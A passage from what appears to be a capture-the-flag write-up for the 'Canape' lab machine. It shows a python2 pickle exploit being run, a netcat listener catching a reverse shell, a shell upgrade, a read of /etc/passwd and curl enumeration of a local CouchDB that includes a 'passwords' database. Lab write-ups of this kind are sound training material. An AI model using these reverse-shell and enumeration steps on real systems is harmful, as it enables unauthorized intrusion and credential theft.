 It's important to create our payload in `python2` so `cPickle` matches with the server! Running it gives a foothold onto the server
```bash
┌──(kali@kali)-[~/canape.htb]
└─$ python2 exploit.py 
```

```bash
┌──(kali@kali)-[~/canape.htb]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.70] 55672
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@canape:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@canape:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
zsh: suspended  nc -lvnp 4444

┌──(kali@kali)-[~/canape.htb]
└─$ stty raw -echo && fg
[1]  + continued  nc -lvnp 4444
www-data@canape:/$ 
```
## user.txt
Enumerating other users on the machine our next target is `homer`
```bash
www-data@canape:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
```
### CouchDB
Looking back at the source we see `couchdb` is running on port 5984
```python
# ...
app.config.update(
    DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]
# ...
```

We can query it to get the version information
```bash
www-data@canape:/tmp$ curl http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

There are a [number of endpoints](https://book.hacktricks.wiki/en/network-services-pentesting/5984-pentesting-couchdb.html#info-enumeration){:target="_blank"}{:rel="noopener noreferrer"} we can get data from
```bash
www-data@canape:/tmp$ curl localhost:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
www-data@canape:/tmp$ curl localhost:5984/passwords 
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```
